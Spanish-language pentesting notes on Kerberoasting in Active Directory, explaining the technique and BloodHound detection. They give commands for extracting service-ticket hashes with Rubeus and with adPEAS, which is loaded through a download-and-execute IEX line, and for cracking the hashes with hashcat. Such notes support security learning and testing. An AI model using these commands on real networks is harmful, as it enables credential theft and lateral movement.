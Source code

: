 # Kerberoasting 

Tags: #AD #Kerberoasting #Rubeus  #BloodHound #ADPeas  #HashCat #Powershell #Windows 

El "Kerberoasting" es una técnica utilizada por atacantes para extraer tickets de servicio de Kerberos en Active Directory y descifrarlos fuera de línea, con el objetivo de obtener contraseñas en texto claro de cuentas de servicio. Este ataque aprovecha configuraciones débiles, como contraseñas poco seguras en cuentas de servicio, y representa una vulnerabilidad significativa en entornos de AD, dado que no genera alertas inmediatas al realizarse el descifrado fuera de la red.

```bash 
# Funcionamiento 

1. Ticket de Servicio: En Kerberos, cuando un usuario quiere acceder a un servicio, solicita un ticket de servicio (TGS, Ticket Granting Service). Este ticket está cifrado con la contraseña de la cuenta de servicio del recurso al que el usuario quiere acceder.
    
2. Extracción: Un atacante no necesita privilegios especiales en el dominio para solicitar un ticket de servicio para cualquier cuenta de servicio. Una vez que el atacante tiene el ticket, puede exportarlo y llevarlo a otro lugar para intentar descifrarlo.
    
3. Descifrado: El atacante intentará descifrar el ticket fuera de línea utilizando herramientas de fuerza bruta o diccionarios. Si la contraseña de la cuenta de servicio es débil, el atacante podría descifrarla en un tiempo razonable.
    
4. Compromiso: Una vez que el atacante tiene la contraseña en texto claro de la cuenta de servicio, puede usarla para acceder a recursos o moverse lateralmente en la red.
```

## Detectar con BloodHound

```bash 
Para detectar posibles vectores de ataque relacionados al Kerberoasting en BloodHound simplemente ejecutamos la siguiente consulta:

	* 'List all Kerberoastable Accounts' en la pestaña de 'Analisys'
```

## Obtener Hash con ADPeas

```bash 
# Ejemplo de un hash 'Kerberoasteable'
❯ $krb5tgs$23$*roast.user$domain1.corp$MSSQL/sql.domain1.corp*$A8DDCBEA1C6AEFE971C4BA672CBC9F32$8D3...

Nota: 
	1. Guardar el Hash en una sola linea en un documento .txt
```

* [ADPeas](https://github.com/61106960/adPEAS)

```powershell 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')

❯ Invoke-adPEAS    # Módulo para hacer la enumeración automatizada
```

##  Rubeus

```bash 
1. Solicitar Tickets Kerberos (TGTs): Rubeus puede solicitar Ticket Granting Tickets (TGTs) utilizando contraseñas, hashes o incluso claves.
    
2. Kerberoasting: Rubeus es capaz de solicitar Ticket Granting Service (TGS) tickets para cuentas de servicio y luego intentar descifrar estos tickets fuera de línea para obtener contraseñas en texto claro, una técnica conocida como Kerberoasting.
    
3. Overpass (Pass-the-Ticket): Rubeus puede realizar ataques de "Overpass", donde los TGTs son utilizados para autenticarse en otros sistemas sin conocer la contraseña del usuario.
    
4. Ticket Renewal: Puede renovar tickets válidos que aún estén dentro de su período de renovación.
    
5. Dumping Tickets: Rubeus puede extraer tickets de la memoria y almacenarlos para su uso o análisis posterior.
    
6. Manipulación de Tickets: Puede purgar, renovar e incluso falsificar tickets de Kerberos.
    
7. Hunting de Tickets: Rubeus puede buscar en la red tickets específicos que proporcionen acceso a ciertos recursos o que posean ciertos privilegios.
    
8. Ataques de Fuerza Bruta: Puede intentar fuerza bruta contra cuentas de usuario con el objetivo de obtener un TGT.
```

* [Rubeus](https://github.com/GhostPack/Rubeus)

```bash 
❯ ./Rubeus.exe kerberoast        # Obtener el hash de un usuario kerberosteable 

Nota:
	1. Guardar el Hash en una sola linea en un documento .txt
```

## Crackear el Hash obtenido 

```bash 
# Guardar y crackear el hash con 'Hashcat'
❯ hashcat -m 13100 --force hash-kerberoasting /usr/share/wordlists/rockyou.txt

	# m = Método por fuerza bruta
	# 13100 = TGS de un Kerberoasting
	# hash-kerberoasting = Archivo que contiene el hash 
	# rockyou = Diccionario a usar 
```
